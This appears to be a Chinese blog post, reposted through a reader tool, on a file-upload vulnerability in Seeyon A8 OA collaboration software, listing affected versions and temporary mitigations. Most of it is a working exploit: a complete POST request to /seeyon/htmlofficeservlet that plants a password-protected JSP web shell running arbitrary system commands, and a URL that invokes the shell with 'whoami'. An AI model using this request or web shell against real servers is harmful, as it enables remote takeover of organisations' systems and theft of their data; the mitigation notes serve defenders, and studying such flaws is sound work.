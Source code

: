> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.cnblogs.com](https://www.cnblogs.com/Yang34/p/13601466.html)

### 最近正好有人问，于是乎翻翻笔记发一波

### 环境为本地复现学习！文章仅供学习交流使用！用于非法目的与本人无关！

### 漏洞影响

漏洞影响的产品版本包括：  
致远A8-V5协同管理软件 V6.1sp1  
致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3  
致远A8+协同管理软件V7.1

### 漏洞修补

临时修补方案如下：  
1、 配置URL访问控制策略；  
2、 在公网部署的致远A8+服务器，通过ACL禁止外网对“/seeyon/htmlofficeservlet”路径的访问；  
3、 对OA服务器上的网站后门文件进行及时查杀。  
建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。

### 利用姿势发送如下POST包

```
POST /seeyon/htmlofficeservlet HTTP/1.1
Host: XXX
Content-Length: 1251
 
 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0
Pragma: no-cache
Content-Length: 1122
 
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%@if("asasd3344".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce 
```

### 浏览器访问即可getshell

[http://XXX/seeyon/test123456.jsp?pwd=asasd3344&cmd=whoami](http://XXX/seeyon/test123456.jsp?pwd=asasd3344&cmd=whoami)

### 截图

![](https://img2020.cnblogs.com/blog/1590180/202009/1590180-20200902141937963-203702836.png)